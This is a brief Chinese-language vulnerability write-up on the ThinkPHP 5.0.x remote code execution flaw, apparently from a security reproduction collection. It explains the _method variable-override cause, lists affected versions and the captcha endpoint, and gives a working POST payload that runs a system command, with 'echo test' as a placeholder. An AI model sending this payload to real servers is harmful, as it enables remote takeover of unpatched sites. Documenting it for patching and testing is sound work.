


## 简介

该漏洞本质上是一个变量覆盖漏洞，通过传递_method参数覆盖了配置文件的method,导致可以访问Request类的任意函数而在Request的构造函数中又创建了恶意的成员变量，导致恶意命令被执行。

该网址中有详细原理

https://kylingit.com/blog/thinkphp-5.0.x-%E7%89%88%E6%9C%AC%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/

## 漏洞影响版本

ThinkPHP5.0.x-5.0.23

## 漏洞影响地址

http://ip:port/index.php/?s=captcha

## 攻击方法

访问并截取数据包



改为POST请求，然后添加

```http

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=echo test  //echo test部分为要执行的恶意命令
```



